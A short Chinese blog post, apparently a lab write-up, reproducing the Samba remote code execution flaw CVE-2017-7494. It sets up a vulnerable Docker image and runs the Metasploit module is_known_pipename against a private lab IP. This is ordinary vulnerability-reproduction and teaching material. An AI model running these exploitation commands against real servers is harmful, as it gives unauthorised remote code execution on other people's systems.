 ```yaml
---
title: Samba远程代码执行漏洞(CVE-2017-7494)
category: 
- 渗透测试
tags: 
- Docker
- 漏洞复现
---
```


### 漏洞概述

- [影响版本](https://www.samba.org/samba/security/CVE-2017-7494.html)
- 漏洞影响了Samba 3.5.0 之后到4.6.4/4.5.10/4.4.14中间的所有版本。

### 镜像信息

![image-20201201140024988](https://cdn.jsdelivr.net/gh/John-tlh/blog/images/2020image-20201201140024988.png)

### 漏洞环境搭建

- 拉取镜像到本地

```bash
$ docker pull medicean/vulapps:s_samba_1
```

- 启动环境

```bash
$ docker run -d -p 445:445 -p 139:139 -p 138:138 -p 137:137 medicean/vulapps:s_samba_1
```

<!-- more -->

### 漏洞利用

- 假定目标 IP 是： 192.168.184.131

### 利用过程

- 启动kali
- 使用docker搭建漏洞环境
- 启动msf开始利用

```bash
use exploit/linux/samba/is_known_pipename
set rhosts 192.168.184.131
show options
run
```

![image-20201201141134964](https://cdn.jsdelivr.net/gh/John-tlh/blog/images/2020image-20201201141134964.png)

### 参考链接

[references](http://blogs.360.cn/blog/samba%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9Ecve-2017-7494%E5%88%86%E6%9E%90/)